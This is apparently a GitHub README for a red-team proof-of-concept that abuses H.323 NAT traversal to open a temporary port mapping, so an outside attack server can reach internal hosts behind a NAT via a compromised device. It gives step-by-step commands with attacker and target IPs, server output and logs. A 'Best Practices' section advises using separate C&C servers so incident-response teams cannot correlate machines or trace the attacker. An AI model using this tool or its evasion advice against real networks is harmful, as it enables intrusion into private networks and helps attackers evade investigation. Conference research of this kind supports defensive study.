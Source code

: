 # Simple H.323 NAT Traversal

A tool that opens a temporary DNAT using H.323 NAT Traversal to create a breakpoint for red teaming under NAT environments!

## Reference

- This is a PoC code for Black Hat USA 2025 Briefing: [From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678) 
- This idea is derived from [NAT slipstreaming](https://samy.pl/slipstream) by [@samykamkar](https://twitter.com/samykamkar)

## Usage

1. **Start the attack server** (example IP: `9.9.9.9`):

    ```bash
    python3 server.py 
    Listening on 0.0.0.0:1720 ...
    ```

2. **Send an H.323 NAT Traversal packet**  
   - NAT public IP: `2.2.2.2`
   - Compromised device internal IP: `192.168.1.2`
   - Internal web server IP: `192.168.1.3`

    ```bash
    python3 main.py -d <next_target_ip> -p <next_target_port> -s <attack_public_ip>
    python3 main.py -d 192.168.1.3 -p 8080 -s 9.9.9.9
    ```

3. **Server output:**

    ```
    Listening on 0.0.0.0:1720 ...
    Connected by: 2.2.2.2:41658
    Received Remote IP (from payload): 2.2.2.2
    Received Remote Port (from payload): 8080
    ```

4. **Now you can directly access** `http://192.168.1.3:8080/` **via** `curl http://2.2.2.2:8080/`

5. **Logs from 192.168.1.3:**

    ```
    python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    9.9.9.9 - - [07/Jun/2025 10:10:08] "GET / HTTP/1.1" 200 -
    ```
    > You will see that the logs show requests coming from 9.9.9.9, making it impossible to associate them with 192.168.1.2.

## Best Practices

- Use different IP C&C servers for `192.168.1.2` and `192.168.1.3`.
- This makes it difficult for IR teams to correlate the two machines and trace the attacker's path.

## Demo video
- [YouTube](https://youtu.be/0mvEMlD_oa8)

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
